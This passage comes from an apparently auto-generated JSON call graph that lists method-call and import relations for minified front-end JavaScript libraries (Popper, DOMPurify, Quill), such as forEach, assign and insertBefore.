"static/js/popper-2.5.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "getRootNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "instanceof"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "forceUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "onFirstUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "translate3d"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "every"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "every"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "createPolicy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "seal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "createHTML"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "createHTML"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "createHTML"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "parseFromString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "createDocument"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "hasChildNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "tagNameCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "attributeNameCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "tagNameCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "createHTML"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "createScriptURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "setAttributeNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "nextNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "importNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "createHTML"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/purify-3.0.9.min.js", "target": "createHTML"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "static/js/quill-2.0.3.js", "target": "util"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "moveChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "moveChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "path"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "path"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "attach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "attach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "values"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "attribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendants"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createTextNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "detach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "index"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "index"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "position"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getNativeRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createTextNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", 